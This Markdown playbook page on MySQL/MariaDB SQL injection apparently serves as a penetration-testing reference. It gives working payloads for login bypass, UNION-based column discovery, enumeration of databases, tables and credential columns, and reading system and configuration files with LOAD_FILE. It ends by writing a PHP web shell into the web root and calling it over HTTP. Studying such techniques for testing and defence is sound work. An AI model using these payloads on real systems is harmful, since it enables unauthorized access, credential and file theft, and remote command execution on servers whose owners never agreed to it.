 ```yaml
---
slug: /playbooks/sqli
pagination_next: null
pagination_prev: null
---
```

# SQL Injections

This article describes some tricks for successful SQL injection. The commands describe here apply only for MySQL/MariaDB, but similar approach can be taken for any other relational databases.

## Comments

When trying to make the SQL injection, remember that SQL has different comment characters: `#`  and `--`. Mind the space in the last one, it's better to use `-- -` char for this kind of escape.

## URL encode

If you are trying to discover a SQL injection and you fail, remember that you might need to use the URL-encoded characters:

| Character | URL Encoded Character |
| --------- | --------------------- |
|'          | %27                   |
|"          | %22                   |
|#          | %23                   |
|;          | %3B                   |
|)          | %29                   |

## Query logic

Remember you can subvert any query logic by using the `AND` and `OR` operators, e.g:

```sql
SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';
```

If you are free to input any value in admin you can ignore the AND:

```sql
SELECT * FROM logins WHERE username='admin'--' AND password = 'p@ssw0rd';
```

Another example, you can just not only ignore the conditions but change them:

```sql
SELECT * FROM logins WHERE ((username='admin') AND id > 1) AND password = 'd41d8cd98f00b204e9800998ecf8427e'
```

username = other')) OR id=5'--

```sql
SELECT * FROM logins WHERE ((username='username = other')) OR id=5'--) AND id > 1) AND password = 'd41d8cd98f00b204e9800998ecf8427e'
```
And you will log-in as user with ID 5

## Union

You can abuse the SQL injection to extract info from any table using the `UNION` clause. You just need to know the number of columns.

You can combine the outputs of two tables provided they have the same number of columns.

In order to know the number of columns, you can use the following methods:

- Order by: you can pass the number of column to sort by: 1,2,3, keep trying until you got an error. That's the number of columns.

- Union: similar to the last one but provide the colums to a union query: `UNION select 1,2,3`. When it fails, you'll know the max number of columns.

This last method provides the benefit that you see in the UI if there are some hidden column.

## Enumerating through SQL injection

You can extract the information in the database via SQL injection. However, first you must know the databases inside, the tables and the structure of them.

No worries, you can make use of the table metadata to obtain this information:

### Databases

All available databases

```sql
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```

Current database

```sql
select 1,database(),2,3-- -
```

### Tables

All available tables in database `dev`

```sql
select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'
```

### Table columns

All available columns in table 'credentials'

```sql
select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'
```

## User privileges

In certain conditions the user might be authorized to read/write files from the database. First of all you need to know the privileges of the current user:

To know the user running the database:

```sql
SELECT 1, user(), 3, 4
```

Check if the user is a super-user:

```sql
SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"
```

List all privileges of user:

```sql
SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"
```

### Reading

If `FILE` privilege is granted for the user, you might be able to read any system file from the database engine:

```sql
SELECT LOAD_FILE('/etc/passwd');
SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4
```

This will work provided the user running the database has read access in the OS.

You can use `TO_BASE64` function for convinience:

```sql
SELECT 1, TO_BASE64(LOAD_FILE("/var/www/html/config.php")), 3, 4
```

And later decode it:
```shell
cat /tmp/b.txt | tr -d ' ' | base64 -d  > /tmp/b.php
```

Note that displaying the base64 added some whitespaces which `base64` command dislikes. You can use `tr` to remove those chars.

### Writing

There are some requirements to be able to write a file from the database:

- `FILE` privilege
- Global `secure_file_priv` variable not enabled
- The user running the database must have write access to the destination

You can check the global variable with a query like:

```sql
SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"
```

If the conditions are met, writing to a file is simple:

```sql
select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'
```

Then, you can try more advanced stuff, like writing a web shell:

```sql
select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'
```

The attacker might run this web-shell from http://SERVER_IP:PORT/shell.php?0=id